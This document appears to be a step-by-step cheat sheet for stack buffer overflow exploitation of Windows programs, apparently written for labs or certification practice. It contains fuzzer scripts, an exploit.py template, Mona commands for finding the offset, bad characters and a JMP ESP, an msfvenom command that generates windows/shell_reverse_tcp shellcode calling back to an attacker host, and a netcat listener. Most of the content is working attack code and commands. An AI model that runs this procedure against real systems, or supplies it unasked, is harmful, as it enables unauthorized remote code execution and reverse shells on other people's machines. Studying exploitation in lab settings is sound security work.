

## Check Windows PE protections
Winchecksec
`https://github.com/trailofbits/winchecksec`
Compiling on Windows
```
git clone https://github.com/trailofbits/winchecksec.git
cd winchecksec
mkdir build
cd build
cmake ..
cmake --build . --config Release
```
Download last release
`https://github.com/trailofbits/winchecksec/releases`
Usage
`.\Release\winchecksec.exe <PATH>.exe`
* * *
## Tools
Immunity Debugger
`https://debugger.immunityinc.com/`
Mona
`https://github.com/corelan/mona`
Mona installation
```
Drop mona.py into the 'PyCommands' folder (C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands\)
Install Python 2.7.14 or higher
```
* * *
## Buffer OverFlow
Launch Immunity Debugger, then “Open” or “Attach” the .exe file.

Mona configuration
All mona commands must be run in the terminal inside Immunity Debugger (in the red rectangle).


### Mona commands
Set the current working directory :
`!mona config -set workingfolder c:\mona\%p`
### Fuzzing
Use fuzzer.py or fuzzer2.py, until the application crash inside Immunity Debugger.

```
# fuzzer.py

import socket, time, sys

IP = "<IP>"
PORT = <PORT>
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((IP, PORT))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send(string)
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + IP + ":" + str(PORT))
        sys.exit(0)
    time.sleep(1)
```
```
# fuzzer2.py

import socket

IP = "<IP>"
PORT = <PORT>

payload = 1000 * "A"

try: 
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP,PORT))
    s.send(payload)
    print "[+] " + str(len(payload)) + " Bytes Sent"
except:
    print "[-] Crashed"
```
You just have to modify those two variables of the scripts above :

IP
PORT
When the application crashes, EIP should be equal to 41414141 (hex value of “AAAA”).
* * *
## Crash replication & controlling EIP
Pattern
Generate a cyclic pattern to found the exact offset of the crash :


```
# Mona
!mona pc <SIZE>

# Metasploit
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <SIZE>
```
The size must be higher than the crash offset. Now modify the payload variable by the cyclic pattern :

```
# exploit.py

import socket

ip = "<IP>"
port = <PORT>

prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```
Re-run the exploit, the application should crash. To find the exact offset of the crash use :

`!mona findmsp -distance <SIZE>`
Size is the same as the one used to create the pattern. The result should be something like :

`EIP contains normal pattern : ... (offset XXXX)`
Get the offset, modify in exploit.py:

- List itemThe offset variable by the offset
- List itemThe retn variable by “BBBB”
- List itemRemove the payload variable
```
offset = <OFFSET>
overflow = "A" * offset
retn = "BBBB"
payload = ""
```
Re-run exploit.py, EIP should be equal to 42424242 (hex value of “BBBB”). You now control EIP !
***
## Finding bad characters
Certain byte characters can cause issues in the development of exploits. We must run every byte through the program to see if any characters cause issues. By default, the null byte (\x00) is always considered a bad character as it will truncate shellcode when executed.

We will send bad characters recursively and analyze if they need to be removed. Let generate the list of bad characters with mona :

`!mona bytearray -b "\x00"`
Copy the results in the variable payload. And re-run exploit.py, the application should crash. Now to found those bad characters use this command :

`!mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS>`
If BadChars are found, we need to exclude them as well.

```
`!mona bytearray -b "\x00 + <BAD_CHARS>"`

# Example
!mona bytearray -b "\x00\x01\x02\x03"
```
Then compare again :

`!mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS>`
Repeat those two steps until the results status returns Unmodified, this indicates that no more bad characters exist.
***
## Finding a jump point
### JMP ESP - Inside the .exe
`!mona jmp -r esp -cpb "<BAD_CHARS>"`
### JMP ESP - inside a DLL
`!mona modules`
We need to found a .dll were Rebase, SafeSEH, ASLR, NXCompat are sets to False. When you found it, run the command below to search for a JMP ESP (FFE4), inside the dll :

`!mona find -s "\xff\xe4" -m <DLL>`
### Return address
Choose an address in the results and update exploit.py :

- List itemSetting the retn variable to the address, written backwards (little-endian)
```
# Example of a JMP ESP address
0x625011af

# exploit.py
retn = "\xaf\x11\x50\x62"
```
***
## Generate payload
Now we generate our shellcode without the badchars that we found :

`msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -b "<BAD_CHARS>" -f c`
Copy the generated shellcode and update exploit.py :

- List itemSetting the payload variable equal to the shellcode
***
## Prepend NOPs
A NOP-sled is a technique for exploiting stack buffer overflows. It solves the problem of finding the exact address of the buffer by effectively increasing the size of the target area, \x90 represents a NOP in assembly. This instruction will literally do nothing and continue on with code execution.

`padding = "\x90" * 16`
***
## Start a listener
`nc -lvnp <PORT>`
